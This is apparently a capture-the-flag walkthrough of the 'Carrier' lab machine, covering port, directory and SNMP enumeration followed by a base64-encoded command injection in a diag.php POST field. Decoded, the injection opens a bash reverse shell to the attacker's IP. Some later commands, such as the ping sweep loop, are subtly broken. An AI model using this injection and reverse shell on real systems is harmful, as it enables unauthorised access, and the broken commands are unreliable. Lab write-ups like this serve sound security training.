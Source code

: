 ###  Carrier

#### information

21/tcp filtered ftp
22/tcp open     ssh  <span style=color:red>   OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)</span>
| ssh-hostkey:
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be​:​de:​07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open  <span style=color:red>   http    Apache httpd 2.4.18 ((Ubuntu))</span>
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

the [launchpad]( https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4)   tell you  the os is  [Bionic]()    where the openssh is, but  apache is not same, [Xenial]()

It is wired! so let's try Enum the [apache]().

****

 gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.105

/img (Status: 301)
/tools (Status: 301)
/doc (Status: 301)
Progress: 464 / 220561 (0.21%)^C
[!] Keyboard interrupt detected, terminating.

*****

web site have /doc directory , try   http://10.10.10.105/  it tell us  Error 45007 and 45009, It means that "License invalid or expired"  and "Default admin user password is set (see chassis serial number)"  in doc , it make me have tips!

so let try enum the udp port ! 

*****

 nmap -sU -p- --max-retries 0 10.11.1.105 --open -Pn

Not shown: 65179 open|filtered ports, 355 closed ports
PORT    STATE SERVICE
161/udp open  snmp

*****

the is port 161 , so that is [snmp]() port, so  try enum snmp with public community.

*****

 snmpwalk -v2c -c public 10.10.10.105

iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
iso.3.6.1.2.1.47.1.1.1.1.11 = No more variables left in this MIB View (It is past the end of the MIB tree)

*****

login with the  [sn]()

another tips in http://10.10.10.105/tickets.php

'''

Rx / CastCom. IP Engineering team from one of our upstream ISP called to
report a problem with some of their routes being leaked again due to a 
misconfiguration on our end. Update 2018/06/13: Pb solved: Junior Net 
Engineer Mike D. was terminated yesterday. Updated: 2018/06/15: CastCom.
still reporting issues with 3 networks: 
10.120.15,10.120.16,10.120.17/24's, one of their VIP is having issues 
connecting by FTP to an important server in the 10.120.15.0/24 network, 
investigating... Updated 2018/06/16: No prbl. found, suspect they had 
stuck routes after the leak and cleared them manually.

'''

and the http://10.10.10.105/diag.php  , it means somebody use [ps]()   command to do this. 

it  is very amazing that we can  post with the base64 encode  command.

POST /diag.php HTTP/1.1
Host: 10.10.10.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.105/diag.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Cookie: PHPSESSID=tohdslhr9mcvtrpemtpjj15727
Connection: close
Upgrade-Insecure-Requests: 1

check=cXVhZ2dhO2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjcvOTAwMCAwPiYx

and we get the [shell]()

as we mention  before that  hava another tips in http://10.10.10.105/tickets.php

and we get the use is root, see the [/proc/1/environ], this is a lxc container

```shell
cat /proc/1/environ
container=lxcroot
```

use the script [LinEnum.sh]()  to enum the  system  this a cron job in 

*/10 * * * * /opt/restore.sh 

this is interesting, but  we  firstly find out  what is the [ftp] ip. in the 10.120.15.0/24 network

by ** for i in  $(seq 1 255); do ping -c 10.120.15.$1 | grep ttl ; done 

64 bytes from 10.120.15.1: icmp_seq=1 ttl=64 time=0.092 ms
64 bytes from 10.120.15.10: icmp_seq=1 ttl=63 time=0.060 ms

echo a > /dev/tcp/10.120.15.10/21 && echo on

by the way, we can use the static-nmap https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  .

so we know the ftp on 10.120.15.10, but login with anonymous  will fail.

we use the [LinEnum.sh]()  to enum the system, we found that there is the cron job

*/10 * * * * /opt/restore.sh

so we try to  use the vtysh login in the [quagga]()  version.

